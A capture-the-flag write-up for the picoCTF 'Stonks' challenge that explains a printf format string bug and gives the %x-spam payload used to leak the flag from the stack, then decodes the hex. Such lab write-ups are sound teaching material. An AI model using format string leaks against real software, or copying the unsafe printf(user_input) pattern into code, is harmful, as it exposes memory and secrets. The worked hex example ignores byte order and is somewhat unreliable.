 # Stonks Writeup

**Flag**: `picoCTF{...}` (retrieved via format string leak)

---

## Summary

This binary reads a fake API token from user input with `scanf("%300s", user_buf)` and then **prints it directly with `printf(user_buf)`**, introducing a format string vulnerability.

We can exploit this to leak data from the stack. The flag is loaded into memory before this point and ends up on the stack, allowing us to read it using `%x`.

---

## Exploit Strategy

* Select option `1` to buy stonks

* When prompted for API token, input a long `%x` spam like:

  ```
  %x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
  ```

* One of the outputs will contain the flag (hex-encoded)

* Repeat and adjust the number of `%x` if needed to fully leak it

* Reconstruct the flag from hex dump

---

## Reverse Flag

Once leaked, convert the hex output to ASCII.

For example, if you see something like:

```
5049434f4354467b4d345f4c33745f
```

Split into bytes:

```
50 49 43 4f 43 54 46 7b 4d 34 5f 4c 33 74 5f
```

Convert to ASCII:

```
P I C O C T F { M 4 _ L 3 t _
```

Keep reading to get the rest.

---

## TL;DR

```
1
%x%x%x%x%x%x%x%x%x%x%x%x%x
```

Find the flag in the output. Convert hex to ASCII. Done.
I used cyberchef for ease of access but realistically this should be done in automation script :)
